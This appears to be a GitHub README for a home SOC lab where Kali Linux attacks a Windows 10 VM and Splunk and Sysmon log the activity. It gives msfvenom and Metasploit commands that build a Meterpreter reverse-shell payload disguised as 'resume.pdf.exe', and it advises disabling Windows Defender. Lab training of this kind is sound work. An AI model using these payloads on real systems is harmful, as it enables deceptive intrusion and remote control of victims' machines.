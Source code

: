 # 🔧 SOC Home Lab: Attack-Defense Simulation

This project simulates a cybersecurity environment for offensive and defensive testing using Kali Linux, Windows 10, Sysmon, and Splunk. It allows practical exposure to attack execution, malware detection, and log monitoring.

---

## 🔁 Project Overview

| Component  | Role                   |
| ---------- | ---------------------- |
| Kali Linux | Attacker               |
| Windows 10 | Target                 |
| Splunk     | Log Monitoring (SIEM)  |
| Sysmon     | System Event Collector |

---

## 🔧 Tools & Requirements

| Requirement         | Description                      |
| ------------------- | -------------------------------- |
| RAM                 | 16GB+ for smooth VM operation    |
| Virtualization Tool | VMware Workstation / VirtualBox  |
| OS ISOs             | Windows 10 & Kali Linux          |
| Logging Tools       | Splunk, Sysmon                   |
| Internet            | Required for downloads & updates |

---

## 🗺️ Network Topology

```
[Kali Linux (Attacker)] ---> [Windows 10 VM (Target)] ---> [Splunk (SIEM/Logs)]
```

---

## ✅ Step-by-Step Setup

### ① Kali Linux Setup (Attacker)

```bash
# Update system
sudo apt update && sudo apt upgrade -y
```

### ② Windows 10 Setup (Target)

* Install Windows 10 ISO.
* Enable networking (NAT/Bridged/Internal).

### ③ Install Splunk on Windows 10

1. Download Splunk Free Edition.
2. Install Splunk and launch it.
3. Login using admin credentials.
4. Enable data input for logs.

### ④ Install Sysmon on Windows 10

```powershell
# Open PowerShell as Administrator
cd "C:\Users\<YourUser>\Downloads\sysmon"
.\sysmon64.exe -i sysmonconfig.xml

# Verify installation
Get-Process sysmon64
```

---

## 🔧 Malware Generation & Attack

### ⑤ Generate Payload (Kali Linux)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```

### ⑥ Set Up Listener (Metasploit)

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Attacker_IP>
set LPORT 4444
exploit
```

* Transfer and execute `resume.pdf.exe` on the Windows target.
* Gain reverse shell:

```bash
meterpreter > sysinfo
```

---

## 🔍 Splunk Log Monitoring

```spl
# Search for security logs
index=main sourcetype=WinEventLog:Security
```

* Create alerts for event IDs:

  * Unauthorized access attempts
  * Process creation logs from Sysmon

---

## ⚠️ Troubleshooting Guide

| Issue                        | Resolution                                                  |
| ---------------------------- | ----------------------------------------------------------- |
| No Meterpreter session       | Disable Windows Defender, check IPs and ports, run as Admin |
| No logs in Splunk            | Ensure Sysmon is active, check Event Log configs            |
| Listener error in Metasploit | Restart handler, verify payload parameters                  |

---

## 🎯 Enhancements & Future Work

* ✈ Integrate ELK stack (Elasticsearch, Logstash, Kibana)
* ⚙️ Automate attack simulations using Python & cron
* 🚀 Implement Wazuh for advanced SIEM capabilities
* 🌟 Add Zeek & Suricata for network traffic analysis

---

## 📊 Comparative Table: Splunk vs ELK Stack

| Feature           | Splunk   | ELK Stack       |
| ----------------- | -------- | --------------- |
| Licensing         | Freemium | Open-source     |
| Log Visualization | Strong   | Very Strong     |
| Setup Complexity  | Easy     | Moderate-High   |
| Performance       | High     | Moderate-High   |
| Customization     | Limited  | Highly Flexible |

---

## 📝 How to Contribute

1. Fork the repository.
2. Create a branch: `git checkout -b feature/improvement`
3. Commit changes: `git commit -m "Added feature X"`
4. Push to branch: `git push origin feature/improvement`
5. Submit a pull request.

---

## 📄 Conclusion

This project demonstrates:

* How to build a realistic attack-defense cyber lab
* Craft and deliver malware payloads safely
* Detect and monitor threats using Splunk and Sysmon

> ✨ *Perfect for cybersecurity enthusiasts looking to learn real-world red-blue teaming skills in a virtual environment.*

---

## 📢 Stickers/Badges

![MIT License](https://img.shields.io/badge/license-MIT-green.svg)
![SOC Lab](https://img.shields.io/badge/SOC-Lab-blue.svg)
![Splunk](https://img.shields.io/badge/Tool-Splunk-yellow)
![Kali Linux](https://img.shields.io/badge/OS-Kali-red)
![Windows](https://img.shields.io/badge/OS-Windows-blue)

---

> 🚀 "Train in the lab. Hunt in the wild."

---
